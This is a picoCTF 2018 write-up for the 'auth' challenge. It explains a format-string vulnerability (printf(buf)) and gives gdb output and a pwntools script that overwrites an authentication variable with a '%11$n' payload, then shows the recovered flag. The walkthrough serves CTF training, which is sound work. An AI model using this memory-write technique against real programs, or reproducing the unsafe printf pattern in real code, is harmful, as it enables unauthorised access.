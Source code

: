 # Problem
Can you [authenticate](https://2018shell1.picoctf.com/static/abb7371ccb43a3faa3136069ffce8795/auth) to this service and get the flag? Connect with ```nc 2018shell1.picoctf.com 52918```. [Source](https://2018shell1.picoctf.com/static/abb7371ccb43a3faa3136069ffce8795/auth.c).

## Hints:
What happens if you say something OTHER than yes or no?

## Solution:
First we download the files:
```bash
wget https://2018shell1.picoctf.com/static/abb7371ccb43a3faa3136069ffce8795/auth
wget https://2018shell1.picoctf.com/static/abb7371ccb43a3faa3136069ffce8795/auth.c
chmod +x ./auth
```

Now, we investigate the source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

```read_flag()``` will print the flag if ```authenticated``` is not false, the problem is that ```authenticated``` is initialized to ```0``` and never changes (rly?)

We can see that if the input (```buf```) does not contain the substring "yes", it is being printed as a format string. We can use it to override authenticated.

Lets investigate, using this gdbinit file:
```bash
break *0x080487f9
run < <(echo "AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x")
x/12wx $esp
x &authenticated

Breakpoint 1, 0x080487f9 in main ()
0xffffce40: 0xffffce6c  0x080489a6  0xf7f965c0  0x0804875a
0xffffce50: 0x00000000  0x00c30000  0x00000000  0xffffcf64
0xffffce60: 0x00000000  0x00000000  0x000003e8  0x41414141
$1 = (int *) 0x804a04c <authenticated>
```

We can see that the string "AAAA" (from our input) is being referenced at the eleventh stack element. We can implement arbitrary memory write now.
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'roeesefi'
pw = '123123'

if debug:
  p = process('./vuln')
else:
  p = remote('2018shell1.picoctf.com', 52918)

print p.recvuntil('Would you like to read the flag? (yes/no)')

payload = p32(0x804a04c) + '.%11$n'

p.sendline(payload)

print p.recvall()
```

Access Granted.

Flag: picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}